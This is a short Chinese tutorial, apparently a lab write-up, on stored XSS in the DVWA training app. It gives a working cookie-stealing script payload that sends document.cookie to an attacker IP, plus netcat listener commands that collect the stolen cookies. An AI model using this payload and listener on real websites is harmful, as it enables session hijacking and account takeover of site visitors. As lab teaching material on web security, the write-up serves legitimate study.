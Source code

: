 ## 一、存储型XSS(Stored XSS)
存储型XSS的Payload会被永久保存在网站的数据库中（如一条留言、一篇帖子），访问即中招。
## 二、攻击流程
### 2.1 侦测漏洞
- DVWA Security级别low
- XSS(Stored)模块，输入测试代码`<script>alert('Stored XSS')</script>`
- 弹出"Stored XSS"警告框，且每次都弹窗，证明脚本保存在服务器上
### 2.2 准备Payload
- 目标是窃取Cookie
- 修改message的text限制为500；`<textarea name="mtxMessage" cols="50" rows="3" maxlength="500"></textarea>`
- Payload；`<script>document.location='http://192.168.174.129:1234/?cookie=' + document.cookie;</script>`
### 2.3 收获
- 启动监听器；`nc -lvp 1234`
- XSS(Stored)提交Payload
- `netcat`接收到Cookie
## 三、总结
- -l是listen，-v是verbose，-p是port
- `while true; do nc -lvp 1234; done`则不断接收Cookie
- 不重置数据库，又能安全返回XSS Stored页面的方法：浏览器暂时禁用JavaScript功能
    - 浏览器地址栏输入`about:config`
    - 搜索`javascript.enabled`，将其从`true`切换成`false`

